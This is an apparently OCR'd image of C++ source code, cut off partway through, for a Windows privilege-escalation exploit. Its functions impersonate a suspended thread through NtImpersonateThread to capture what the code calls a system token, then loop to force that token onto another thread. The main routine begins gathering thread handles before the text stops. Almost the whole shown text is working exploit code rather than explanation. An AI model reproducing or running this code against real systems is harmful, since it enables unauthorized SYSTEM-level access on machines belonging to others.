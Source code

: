 ```
}

typedef NTSTATUS __stdcall NtImpersonateThread(HANDLE ThreadHandle, 
      HANDLE ThreadToImpersonate, 
      PSECURITY_QUALITY_OF_SERVICE SecurityQualityOfService);

HANDLE GetSystemToken(HANDLE hThread)
{
  SuspendThread(hThread);

  NtImpersonateThread* fNtImpersonateThread = 
     (NtImpersonateThread*)GetProcAddress(GetModuleHandle(L"ntdll"), 
                                          "NtImpersonateThread");
  SECURITY_QUALITY_OF_SERVICE sqos = {};
  sqos.Length = sizeof(sqos);
  sqos.ImpersonationLevel = SecurityImpersonation;
  SetThreadToken(&hThread, nullptr);
  NTSTATUS status = fNtImpersonateThread(hThread, hThread, &sqos);
  if (status != 0)
  {
    ResumeThread(hThread);
    printf("Error impersonating thread %08X\n", status);
    exit(1);
  }

  HANDLE hToken;
  if (!OpenThreadToken(hThread, TOKEN_DUPLICATE | TOKEN_IMPERSONATE, 
                       FALSE, &hToken))
  {
    printf("Error opening thread token: %d\n", GetLastError());
    ResumeThread(hThread);    
    exit(1);
  }

  ResumeThread(hThread);

  return hToken;
}

struct ThreadArg
{
  HANDLE hThread;
  HANDLE hToken;
};

DWORD CALLBACK SetTokenThread(LPVOID lpArg)
{
  ThreadArg* arg = (ThreadArg*)lpArg;
  while (true)
  {
    if (!SetThreadToken(&arg->hThread, arg->hToken))
    {
      printf("Error setting token: %d\n", GetLastError());
      break;
    }
  }
  return 0;
}

int main()
{
  std::map<DWORD, HANDLE> thread_handles;
  printf("Gathering thread handles\n");
```